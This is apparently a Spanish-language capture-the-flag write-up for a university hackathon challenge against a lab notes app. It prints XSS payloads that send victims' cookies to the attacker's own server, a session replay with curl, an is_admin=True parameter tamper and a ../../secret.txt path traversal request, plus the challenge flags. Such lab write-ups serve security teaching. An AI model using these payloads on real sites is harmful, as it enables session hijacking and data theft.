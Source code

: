 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` y dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**

```html
<!-- esta primera puede buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 

Cuando registramos a un usuario en la URL aparece `&is_author=True`, aprovechando esta vulnerabilidad podemos modificar el path añadiendo `is_admin=True` como vemos en el ejemplo siguiente:

```python
http://10.0.2.12/notesapp/saveprofile?action=new&uid=pepito&pw=12345&is_admin=True
```
y con esto conseguimos un usuario con poderes de administrador, y como nos dicen que un administrador puede editar otros, pues tan sencillo como ir a editar el usuario `administrator` y en la `Private Note` vemos la flag.


**Flag 2:** `HACK{k9lb8YI00Be2t7eAm4zI7lDr-B8ePCWspRuDAF9ccWQ}`


### Flag 3

Primero, subimos una imagen desde el apartado de `upload`, este nos mostratrá un poco la estructura de los paths `/notesapp/<TU_USER>/<NOMBRE_IMG>.jpg`. Encendemos [Caido](https://caido.io/), y luego vamos a la barra de búsqueda, ese path y nos dará la imagen que hemos subido, reafirmando una vulnerabilidad de `path traversal`.

Volvemos a Caido, en el apartado de `HTTP history` pillamos la request que se hizo al comprobar la imagen, click derecho en ella y nso la llevamos al apartado de `Replay`, y hay una límea que hay que modificar 

```python
Accept: image/avif,image/webp,*/*
```

y cambiar por

```python
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5
```

esto nos permitirá ver otros formatos de archivo que no solo sea de imagen, luego realizamos dos retrocesos de directorio y apuntamos al archivo que contiene la flag, llamado `secret.txt`

**Request**
```python
GET /notesapp/pepito/../../secret.txt HTTP/1.1
Host: 10.0.2.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.2.12/notesapp/
Connection: keep-alive
Cookie: NOTESAPP=111686670|pepito|admin|
Pragma: no-cache
Cache-Control: no-cache
```
**Response**
```python
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 19 Mar 2025 14:22:59 GMT
Content-Type: text/plain
Connection: keep-alive
Cache-control: public, max-age=7200
X-XSS-Protection: 0
Content-Length: 49

HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}
```
y observamos que la respuesta nos devolvió en texto plano la _flag_.

**Flag 3:** `HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}`

